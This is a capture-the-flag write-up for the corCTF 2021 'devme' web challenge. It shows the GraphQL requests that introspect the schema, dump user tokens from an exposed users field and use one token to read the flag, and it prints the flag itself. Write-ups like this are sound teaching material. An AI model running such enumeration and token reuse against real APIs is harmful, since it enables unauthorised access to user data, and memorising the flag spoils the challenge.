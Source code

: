 # devme - corCTF 2021

- Category: Web
- Points: 323
- Solves: 264
- Solved by: Iregon

## Description

an ex-google, ex-facebook tech lead recommended me this book!

[https://devme.be.ax](https://devme.be.ax)

## Solution

The linked site in the challenge description is mostly empty. The only part that looks interesting is the form at the end of the page:

![form](images/form.png)

Submitting the form we can see a request made to an intesting endpoint:

![req](images/req.png)

and in the body we have a complete graphql query:

```json
{
    "query": "mutation createUser($email: String!) {\n\tcreateUser(email: $email) {\n\t\tusername\n\t}\n}\n",
    "variables": {
        "email": "test@test.com"
    }
}
```

We have the complete access to the database, so we can try to enumerate it:

### Request
```json
{
    "query":"{__schema {queryType {fields {name description}}}}"
}
```

### Response
```json
{
  "data": {
    "__schema": {
      "queryType": {
        "fields": [
          {
            "name": "users",
            "description": null
          },
          {
            "name": "flag",
            "description": null
          }
        ]
      }
    }
  }
}
```

The field **flag** looks very intresting.

Let's try to query it!

### Request
```json
{
    "query":"{flag}"
}
```

### Response
```json
{
  "errors": [
    {
      "message": "Field \"flag\" argument \"token\" of type \"String!\" is required, but it was not provided.",
      "locations": [
        {
          "line": 1,
          "column": 2
        }
      ]
    }
  ]
}
```

Hmm... token is required and we don't know it.

Now, let's take a look at **users** field.

Let's check if token is in it.

### Request
```json
{
    "query":"{users{token}}"
}
```

### Response
```json
{
  "data": {
    "users": [
      {
        "token": "3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b"
      },
      {
        "token": "5568f87dc1ca15c578e6b825ffca7f685ac433c1826b075b499f68ea309e79a6"
      },
      {
        "token": "d34609c0c342f7dc6f3d8b18356dfeda82a233a9846c7d2dbab8fb803719caf9"
      },
      ...
    ]
  }
}
```

There are a lot of tokens.

Let's try the first one!

### Request
```json
{
    "query":"{flag(token: \"3cd3a50e63b3cb0a69cfb7d9d4f0ebc1dc1b94143475535930fa3db6e687280b\")}"
}
```

### Response
```json
{
  "data": {
    "flag": "corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice}"
  }
}
```

There is the flag!!!

## Flag

```
corctf{ex_g00g13_3x_fac3b00k_t3ch_l3ad_as_a_s3rvice}
```
